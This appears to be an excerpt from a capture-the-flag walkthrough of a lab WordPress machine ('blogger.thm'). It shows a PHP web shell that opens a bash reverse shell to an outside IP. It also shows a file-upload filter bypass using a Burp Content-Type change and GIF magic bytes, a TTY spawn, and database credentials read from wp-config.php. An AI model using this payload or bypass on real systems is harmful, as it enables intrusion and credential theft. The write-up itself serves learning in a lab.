 We have created a file named `shell.php` with the following payload as its contents:
```bash
<?php system('bash -c "bash -i >& /dev/tcp/192.168.45.184/9001 0>&1"'); ?>

```

Let's try uploading it .

Looks like .php files are not allowed. Let's change the Content-Type to `image/jpeg` using burp.
![[Pasted image 20240102173617.png]]

**Response:** 

![[Pasted image 20240102173703.png]]

It still says not allowed file type.

It seems the server is using magic bytes to determine the filetype of the uploaded file. Magic bytes are special bytes which allow a linux system to determine their filetype. Let's try adding magic bytes at the beginning of our files.   Here, we can add the magic bytes of GIF file to the starting of our `shell.php`.

The magic bytes for a GIF file is : `GIF89n;`
![[Pasted image 20240102174058.png]]

Let's try uploading our shell again.

**Response : 

![[Pasted image 20240102174212.png]]

It looks like our shell has been uploaded to `/wp-content/uploads/2024/01`. Let's try accessing it and check if we can get a shell.

```bash
curl http://blogger.thm/assets/fonts/blog/wp-content/uploads/2024/01/shell-1704197508.7293.php
```

![[Pasted image 20240102174454.png]]

And we are in!!!!

## Privilege Escalation: 

First of all, let's spawn a tty:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```
Looking around , we find  `wp-config.php` file within the `/var/www/wordpress/assets/fonts/blog` which contains the creds for the database.

```
db_username: root
db_password : sup3r_s3cr3t
```
